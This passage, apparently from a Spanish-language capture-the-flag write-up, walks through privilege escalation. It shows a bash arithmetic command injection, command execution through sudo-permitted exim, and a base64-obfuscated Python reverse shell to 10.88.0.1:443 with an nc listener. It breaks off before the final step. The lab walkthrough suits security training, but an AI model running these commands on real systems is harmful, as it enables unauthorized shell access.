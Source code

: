 ~~~ bash
a[$(/bin/sh >&2)]+42
~~~

![[Pasted image 20241105183521.png]]

Para volver a una `bash`, simplemente escribimos `bash`

## Sudo `exim`

Listaremos los privilegios `sudo` que tenemos asignados para el usuario actual

~~~ bash
sudo -l
~~~

![[Pasted image 20241105183719.png]]

Podemos ejecutar `exim` como el usuario `pepe`, por lo que podemos intentar ejecutar `bash` como este usuario, para ejecutar algún comando a través de `exim`, podemos hacerlo mediante el siguiente comando

~~~ bash
exim -be '${run{/usr/bin/id}}'
~~~

![[Pasted image 20241105184456.png]]

Intentamos migrar al usuario `pepe` con `sudo`

~~~ bash
echo '#!/bin/bash' > /tmp/privesc && echo "echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHB0eTtpbXBvcnQgc29ja2V0LG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjg4LjAuMSIsNDQzKSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL2Jhc2giKSc=' | base64 -d | bash" >> /tmp/privesc
~~~ 

![[Pasted image 20241105203456.png]]

Antes de lanzar la `shell` le damos permisos de ejecución al `script`

~~~ bash
chmod +x /tmp/privesc
~~~

## Shell

Nos ponemos en escucha con `nc` por el puerto `443` para recibir la `shell`

~~~ bash
nc -lvnp 443
~~~

## Pepe

Ejecutamos la reverse shell de la siguiente forma
